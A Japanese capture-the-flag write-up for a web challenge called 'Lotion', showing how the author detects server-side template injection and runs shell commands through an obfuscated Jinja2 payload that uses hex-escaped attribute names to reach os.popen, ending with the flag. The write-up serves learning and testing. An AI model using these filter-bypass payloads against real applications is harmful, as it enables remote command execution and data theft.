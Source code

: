 # Lotion

```txt
I am trying to make my own version of notion named lotion , 
Can you do security check for my app? 
http://chall.nitdgplug.org:30014/
```

## Solution

問題にアクセスすると NoresAPP というメモができるページが表示されます。

試しに適当に入力すると以下のようにメモの内容が表示されるようです。

![img1](img/img1.png)

試しに `{{7*7}}` とメモを追加してみると以下のように表示されました。

![img2](img/img2.png)

この結果から、SSTI があることが推測できます。

そこでいくつかのペイロードを試してみると、以下のペイロード形式で上手く実行させることができました。 [github](https://github.com/payloadbox/ssti-payloads)

```txt
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![img3](img/img3.png)

なので `ls -al` コマンドなどを試すと、`secret-note` というディレクトリの中に `flag` というものがあることがわかりました。

これで flag の位置や閲覧権限があることがわかったので、最終的に以下のペイロードで flag を得れます。

payload
```txt
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat secret-note/flag')|attr('read')()}}
```

![img4](img/img4.png)

## Flag

flag : `GLUG{INJECTED_PR3TTY_G00D_HUH}`

